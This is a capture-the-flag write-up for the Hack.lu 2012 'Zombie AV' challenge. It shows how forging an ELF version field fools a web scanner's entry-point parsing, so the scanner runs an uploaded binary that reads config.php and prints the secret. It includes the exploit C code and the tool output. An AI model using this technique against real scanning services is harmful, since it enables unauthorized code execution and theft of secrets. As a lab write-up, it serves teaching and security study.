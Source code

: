 ```yaml
---
title: "Hack.lu CTF 2012: Zombie AV"
categories: ctf
layout: post
---
```


This problem presents a web-based AV scanner.  If you upload the zombie virus, the server runs it; otherwise it tells you that the file you provided does not contain the zombie virus.  Our goal is to get the contents of config.php.

When you submit a non-infected binary, you get output like:

    analysing file 79826432fa989a93fd7acfaca92f5880
    8048330:  31 ed                 xor    %ebp,%ebp
     8048332: 5e                    pop    %esi
     8048333: 89 e1                 mov    %esp,%ecx
     8048335: 83 e4 f0              and    $0xfffffff0,%esp
     8048338: 50                    push   %eax
     8048339: 54                    push   %esp
     804833a: 52                    push   %edx
     804833b: 68 10 84 04 08        push   $0x8048410
     8048340: 68 20 84 04 08        push   $0x8048420
     8048345: 51                    push   %ecx
     8048346: 56                    push   %esi
     8048347: 68 e4 83 04 08        push   $0x80483e4
     804834c: e8 cb ff ff ff        call   804831c <__libc_start_main@plt>
     8048351: f4                    hlt
     8048352: 90                    nop
     8048353: 90                    nop
     8048354: 90                    nop
     8048355: 90
    Entry Opcodes are: 31 ed 5e 89 e1 83 e4 f0 50 54 52 68
    Signature is: d87ae7dd8b166d8e2c02676d69561c96
    no zombie virus found

In `scan.php`, the signature of the zombie virus is given.  A file contains the zombie virus if the first 12 opcodes following its entry point are:

{% highlight c %}
/*
 * hint: zombie virus signature is
 * 8048340: b0 01                 mov    $0x1,%al
 * 8048342: 90                    nop
 * 8048343: 90                    nop
 * 8048344: 90                    nop
 * 8048345: 90                    nop
 * 8048346: 90                    nop
 * 8048347: 90                    nop
 * 8048348: 90                    nop
 * 8048349: 90                    nop
 * 804834a: cd 80                 int    $0x80
 */
{% endhighlight %}

This code looks like it immediately calls syscall 1 (exit), so we need to find another way than just including these at the beginning of our code.  (Actually, it turns out that this is not the case -- the first op sets al rather than eal, so the effective syscall number retains the high bits of eal, but we didn't notice or test this.)

Analyzing the code, it seems the entry point address is determined by running the binary through `readelf -h` and looking for the first string that matches `/0x[a-fA-F0-9]{5,8}/`.  Typically, that output looks like:

    ELF Header:
      Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
      Class:                             ELF32
      Data:                              2's complement, little endian
      Version:                           1 (current)
      OS/ABI:                            UNIX - System V
      ABI Version:                       0
      Type:                              EXEC (Executable file)
      Machine:                           Intel 80386
      Version:                           0x1
      Entry point address:               0x8048330
      Start of program headers:          52 (bytes into file)
      Start of section headers:          4392 (bytes into file)
      Flags:                             0x0
      Size of this header:               52 (bytes)
      Size of program headers:           32 (bytes)
      Number of program headers:         8
      Size of section headers:           40 (bytes)
      Number of section headers:         30
      Section header string table index: 27

In this case, the first match is indeed the entry point, but there's another field printed in hex earlier -- the binary version.  It turns out that we control this field, and the ELF parser doesn't care about its value.  Let's include the zombie opcodes in our binary, then set the version number to the address of those opcodes.  Here's our `zombo_virus.c`:

{% highlight c %}
int main() {
  system("cat config.php");
  __asm__("mov    $0x1,%al");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("nop");
  __asm__("int    $0x80");
}
{% endhighlight %}

Compiling this and running it through `objdump -d` reveals the address of the zombie signature:

    ...
    080483e4 <main>:
     80483e4: 55                    push   %ebp
     80483e5: 89 e5                 mov    %esp,%ebp
     80483e7: 83 e4 f0              and    $0xfffffff0,%esp
     80483ea: 83 ec 10              sub    $0x10,%esp
     80483ed: c7 04 24 d0 84 04 08  movl   $0x80484d0,(%esp)
     80483f4: e8 13 ff ff ff        call   804830c <system@plt>
     80483f9: b0 01                 mov    $0x1,%al
     80483fb: 90                    nop
     80483fc: 90                    nop
     80483fd: 90                    nop
     80483fe: 90                    nop
     80483ff: 90                    nop
     8048400: 90                    nop
     8048401: 90                    nop
     8048402: 90                    nop
     8048403: cd 80                 int    $0x80
    ...

So, it lives at `0x80483f9`.  Using your favorite ELF editor (we used [`hte`](http://hte.sourceforge.net/)), edit the resulting binary to have that as a version:

    ELF Header:
      Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
      Class:                             ELF32
      Data:                              2's complement, little endian
      Version:                           1 (current)
      OS/ABI:                            UNIX - System V
      ABI Version:                       0
      Type:                              EXEC (Executable file)
      Machine:                           Intel 80386
      Version:                           0x80483f9
      Entry point address:               0x8048330
      Start of program headers:          52 (bytes into file)
      Start of section headers:          4392 (bytes into file)
      Flags:                             0x0
      Size of this header:               52 (bytes)
      Size of program headers:           32 (bytes)
      Number of program headers:         8
      Size of section headers:           40 (bytes)
      Number of section headers:         30
      Section header string table index: 27

Now submit it!

    analysing file c39d143ac2432849d61fd144a0d13abc
    80483f9:  b0 01                 mov    $0x1,%al
     80483fb: 90                    nop
     80483fc: 90                    nop
     80483fd: 90                    nop
     80483fe: 90                    nop
     80483ff: 90                    nop
     8048400: 90                    nop
     8048401: 90                    nop
     8048402: 90                    nop
     8048403: cd 80                 int    $0x80
     8048405: c9                    leave
     8048406: c3                    ret
     8048407: 90                    nop
     8048408: 90                    nop
     8048409: 90                    nop
     804840a: 90                    nop
     804840b: 90                    nop
     804840c: 90                    nop
     804840d: 90                    nop
     804840e: 90                    nop
     804840f: 90                    nop

    08048410 <__lib
    Entry Opcodes are: b0 01 90 90 90 90 90 90 90 90 cd 80
    Signature is: cd53b957ec552afb39cba6daed7a9abc
    found zombie virus, trying to execute it
    <?php

    $readelfpath='/usr/bin/readelf';
    $objdumppath='/usr/bin/objdump';
    $uploadpath='upload/';
    $scriptpath='/var/www/';
    $secret='55c4080daefb5f794c3527101882b50b';

    ?>
    done we are safe

There's the flag:  `55c4080daefb5f794c3527101882b50b`.